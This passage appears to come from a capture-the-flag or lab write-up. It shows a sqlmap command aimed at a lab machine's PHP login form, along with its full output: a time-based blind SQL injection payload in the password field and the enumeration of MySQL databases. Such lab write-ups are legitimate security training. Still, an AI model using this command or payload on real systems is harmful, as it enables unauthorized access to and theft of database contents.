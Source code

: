 sqlmap --url http://192.168.122.146:1337/978345210/index.php --forms --dbs --level=5 --risk=3 -D Webapp --tables --batch

```jsx
root@kali:~# sqlmap --url http://192.168.122.146:1337/978345210/index.php --forms --dbs --level=5 --risk=3 -D Webapp --tables --batch
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.6#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 04:26:14 /2020-08-25/

[04:26:14] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=86s0g97oej6...jisdij0id1'). Do you want to use those [Y/n] Y
[04:26:15] [INFO] searching for forms
[#1] form:
POST http://192.168.122.146:1337/978345210/index.php
POST data: username=&password=&submit=%20Login%20
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=&submit=%20Login%20] (Warning: blank fields detected): username=&password=&submit= Login 
do you want to fill blank fields with random values? [Y/n] Y
it appears that provided value for POST parameter 'submit' has boundaries. Do you want to inject inside? (' Login* ') [y/N] N
[04:26:15] [INFO] resuming back-end DBMS 'mysql' 
[04:26:15] [INFO] using '/root/.sqlmap/output/results-08252020_0426am.csv' as the CSV results file in multiple targets mode
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: password (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=fPLr&password=' AND (SELECT 5612 FROM (SELECT(SLEEP(5)))WiKo) AND 'lvXp'='lvXp&submit= Login
---
do you want to exploit this SQL injection? [Y/n] Y
[04:26:15] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[04:26:15] [INFO] fetching database names
[04:26:15] [INFO] fetching number of databases
[04:26:15] [INFO] resumed: 4
[04:26:15] [INFO] resumed: information_schema
[04:26:15] [INFO] resumed: Webapp
[04:26:15] [INFO] resumed: mysql
[04:26:15] [INFO] resumed: performance_schema
available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] Webapp

[04:26:15] [INFO] fetching tables for database: 'Webapp'
[04:26:15] [INFO] fetching number of tables for database 'Webapp'
[04:26:15] [WARNING] time-based comparison requires larger statistical model, please wait.............................. (done)
```